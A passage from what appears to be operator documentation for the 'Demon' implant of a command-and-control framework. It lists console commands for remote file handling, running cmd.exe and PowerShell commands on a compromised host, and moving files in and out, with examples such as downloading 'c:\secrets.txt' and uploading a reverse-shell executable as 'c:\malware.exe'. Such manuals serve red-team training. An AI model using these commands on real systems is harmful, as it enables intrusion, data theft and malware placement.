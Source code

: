 `Demon » cp C:\path\to\remote\file.txt C:\path\to\remote\copied_file.txt`

- Move file

`Demon » mv C:\path\to\remote\file.txt C:\path\to\remote\moved_file.txt`

`Demon » cat C:\path\to\remote\file.txt`

- Delete file

`Demon » remove C:\path\to\remote\file.txt`

## 3.6 - Execute Shell Commands

### 3.6.1 - Help Menu

```
Demon » help shell

 - Command       :  shell
 - Description   :  executes cmd.exe commands and gets the output
 - Behavior      :  Process Creation
 - Usage         :  shell [commands]
 - Example       :  shell dir c:\windows\system32

Demon » help powershell

 - Command       :  powershell
 - Description   :  executes powershell.exe commands and gets the output
 - Usage         :  powershell [commands]
 - Example       :  powershell dir c:\windows\system32
```

### 3.6.2 - Usage

* Execute any `shell` command that the demon implant spawns a child process `cmd.exe`

`Demon » shell <command> [args]`

* Spawns a child process of `powershell.exe`

`Demon » powershell <cmdlet> [args]`

## 3.7 - Upload and Download Files

```
Demon » help download

 - Command       :  download
 - Description   :  downloads a specified file
 - Behavior      :  API Only
 - Usage         :  download [/path/to/file.txt]
 - Example       :  download c:\secrets.txt

Demon » help upload

 - Command       :  upload
 - Description   :  uploads a specified file
 - Behavior      :  API Only
 - Usage         :  upload [/local/file/to/upload.exe] [/remote/path/to/upload.exe]
 - Example       :  upload /tmp/reverse_shell.exe c:\malware.exe

Demon » help transfer

 - Command       :  transfer
 - Description   :  download transfer module
 - Behavior      :  API Only
```